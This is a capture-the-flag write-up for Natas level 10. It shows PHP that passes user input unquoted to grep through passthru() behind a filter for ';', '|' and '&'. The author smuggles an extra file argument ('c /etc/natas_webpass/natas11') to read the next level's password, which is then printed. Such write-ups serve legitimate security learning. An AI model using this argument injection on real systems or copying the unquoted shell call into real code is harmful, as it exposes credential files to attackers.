

# Writeup level 10
This challenge is almost the same as the one before. The only differnce is that they have built in some filters.

** Source Code **
```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
Okay so what characters are we not allowed to use?  

- ";"
- "|"
- "&"

That's not really a problem because we don't need those operations to abuse grep.  
What does grep expect?  
grep [OPTIONS] PATTERN [FILE...]  
>grep searches the named input FILEs (or standard input if no files are named, or if a single hyphen-minus (-) is given as file name) for lines containing a match to the given PATTERN. By default, grep prints the matching lines.

So it can search multiple files!  
We can simply search the password file without using any restricted characters.  

**Our input**:  
c /etc/natas_webpass/natas11  
What the **application** sees:  
grep -i c /etc/natas_webpass/natas11 dictionary.txt

### Result
 

The password is:  
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

